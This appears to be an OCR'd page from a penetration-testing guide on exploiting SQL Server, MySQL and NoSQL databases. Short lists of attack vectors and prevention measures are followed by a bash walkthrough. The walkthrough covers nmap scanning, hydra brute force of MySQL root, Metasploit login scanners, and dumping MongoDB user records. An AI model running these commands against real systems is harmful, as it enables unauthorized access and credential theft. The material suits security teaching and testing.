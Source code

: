 1. **SQL Server Exploitation**:
   - Attack vectors: Weak credentials, excessive privileges
   - Vulnerabilities: Misconfiguration, unpatched instances
   - Tools: SQLmap, Metasploit, custom scripts
   - Techniques: Brute force, known exploits, privilege escalation
   - Prevention: Patching, strong authentication, network segmentation

2. **MySQL/MariaDB Exploitation**:
   - Attack vectors: Weak credentials, configuration issues
   - Vulnerabilities: User privilege issues, outdated versions
   - Tools: Metasploit, custom scripts, SQLmap
   - Techniques: Brute force, UDF exploitation
   - Prevention: Strong authentication, minimal privileges, patching

3. **NoSQL Database Exploitation**:
   - Attack vectors: Injection flaws, weak authentication
   - Vulnerabilities: NoSQL injection, excessive permissions
   - Tools: NoSQLMap, custom scripts
   - Techniques: Injection attacks, authentication bypass
   - Prevention: Input validation, strong authentication, access controls

```bash
# Example: Database service exploitation

# Step 1: Scan for database services
nmap -sV -p 1433,3306,5432,27017 192.168.1.0/24

# Step 2: MySQL brute force
hydra -l root -P passwords.txt mysql://192.168.1.100

# Step 3: MySQL exploitation with Metasploit
msfconsole -q
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 192.168.1.100
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

# Step 4: Access MySQL with discovered credentials
mysql -h 192.168.1.100 -u root -p

# Step 5: SQL Server exploitation
msfconsole -q
use auxiliary/scanner/mssql/mssql_login
set RHOSTS 192.168.1.100
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

# Step 6: MongoDB enumeration
mongo --host 192.168.1.100 --port 27017
# In MongoDB shell:
show dbs
use admin
show collections
db.system.users.find()
```
